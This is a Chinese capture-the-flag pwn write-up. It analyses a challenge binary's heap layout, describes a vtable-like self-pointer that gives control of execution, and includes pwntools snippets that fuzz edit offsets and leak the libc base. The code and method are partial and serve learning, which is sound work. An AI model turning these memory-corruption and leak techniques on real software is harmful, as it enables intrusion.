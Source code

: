 发现它总是有序的排列在一个内存页，大概是这个程序的堆，还有蜜汁小地址

![image](https://webimage.lufiende.work/1752765056034.png)

发现只针对 Index 为 0 的堆上 Edit 的偏移控制是以 8 位为一个单位进行偏移的，可以满足绝大部分控制需求

接下来观察每一偏移更改的情况

```python
for i in range(10):
    io = start()

    add('maimaima')
    add('chunithm')

    edit(0, i, p64(0x114514))
    
    io.interactive()
```

首先只要乱改，在程序等待输入的时候时会影响 GC 垃圾回收线程，出现各种错误，不过没什么用

![image](https://webimage.lufiende.work/1752765058886.png)

![image-20250717203540637](https://webimage.lufiende.work/1752765745728.png)

我们把目光放到我们所谓的堆上

![image-20250717204706854](https://webimage.lufiende.work/1752765753395.png)

如果你足够敏锐，你可以发现他们就是你命名的堆的名字，还有蜜汁自指小指针，观察这个蜜汁小指针，你会发现在看起来发挥不同作用的区域有不同的蜜汁小指针，想知道他们是干什么的，改掉他们看看会发生什么就行了，这里就改这个 `0x2623b0`

![image-20250717210046616](https://webimage.lufiende.work/1752765755752.png)

这下就能明白这个是什么了，这个自指的指针就像虚表一样，能够执行该地址偏移固定位置的函数，我们看一眼蜜汁指针所在上下文，对应位置有一个可执行地址，符合我们的猜想

![image-20250717210248950](https://webimage.lufiende.work/1752765759708.png)

到这里，我们相当于获得了一个权力，即执行一个地址对应的指令，就可以 Getshell 

同时，因为每次写都会残留蜜汁小指针，可以写到我们原有的堆名称覆盖，借此泄露 `libc` ，不过值得关注的是，这里的双字用了 `Unicode` ，而终端大部分是 `UTF-8` ，需要编码转换一下，不过因此我们可以泄露基地址

```python
add('maimaima')
add('chunithm')


edit(0, 15, p64(0x114514))
show()

io.recvuntil(b"[")
leak = io.recvuntil(b"]")
leak = leak.decode('utf-8')[4:-12]
# 将每个字符转换为4位16进制后，按小端序倒序排列
leak_unicode = ''.join(f"{ord(c):04x}" for c in reversed(leak))
leak_off = 0x7c663ceaaa26 - 0x7c663ce00000
libc_addr = int(leak_unicode,16) - leak_off
log.info(f"libc_addr: {hex(libc_addr)}")
```
